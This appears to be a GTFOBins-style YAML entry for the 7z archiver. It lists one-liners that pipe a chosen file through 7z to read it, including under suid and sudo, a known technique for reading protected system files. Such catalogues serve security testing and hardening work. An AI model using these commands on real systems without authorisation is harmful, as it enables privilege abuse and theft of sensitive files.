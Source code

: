 ```yaml
---
functions:
  file-read:
    - code: |
        LFILE=file_to_read
        7z a dummy.tar $LFILE -ttar -so | 7z e -ttar -si -so
  suid:
    - code: |
        LFILE=file_to_read
        ./7z a dummy.tar $LFILE -ttar -so | 7z e -ttar -si -so
  sudo:
    - code: |
        LFILE=file_to_read
        7z a dummy.tar $LFILE -ttar -so | 7z e -ttar -si -so
---
```


